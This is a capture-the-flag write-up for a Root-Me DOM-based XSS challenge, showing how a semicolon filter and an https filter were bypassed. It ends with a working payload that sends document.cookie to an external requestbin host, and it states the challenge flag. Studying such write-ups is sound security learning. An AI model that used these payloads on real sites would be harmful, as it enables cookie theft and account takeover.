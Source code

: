 # XSS DOM Based - Filters Bypass

In this chall, you won't have to guess the correct number because you will be rewarded nothing. So we will find a way to reward ourselves :D

![anh1](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/XSS_DOM_Filter1.png)

I tried to close the single quotes first, then used `;` to end the current javascript command and used alert(1) to check if the page is vulnerable to XSS or not. I entered `a'; alert(1); // ` into the input field.

Then nothing happened so I checked for the sources

![anh2](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/XSS_DOM_Filter2.png)

As you can see, the `;` is deleted so I couldn't end the current command and `alert(1)` wouldn't be triggered. Then I tried using `\r\n` and this page seems to be vulnerable.

![anh3](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/XSS_DOM_Filter3.png)

Next, I tried to send the cookie to my current server on requestbin. But when I entered `document.location=”https:// eovasfu0mdllq4f.m.pipedream.net”;`, the page told me that

![anh4](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/XSS_DOM_Filter4.png)

I changed `https` to `hTTps` to check if the XSS is triggered or not. Fortunately, the challenge doesn't check for case intensitive. So I was able to solve this challenge using the payload below:

```javascript

a'%0D%0Adocument.location='hTTps://eovasfu0mdllq4f.m.pipedream.net/?'.concat(document.cookie)//

```

I used this payload on the main page, then I grabbed the url and send it to admin. Now I think you already know what will happen next :D

![anh5](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/XSS_DOM_Filter5.png)

Flag is `rootme{FilTERS_ByPass_DOm_BASEd_XSS}`

![anh6](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/XSS_DOM_Filter6.png)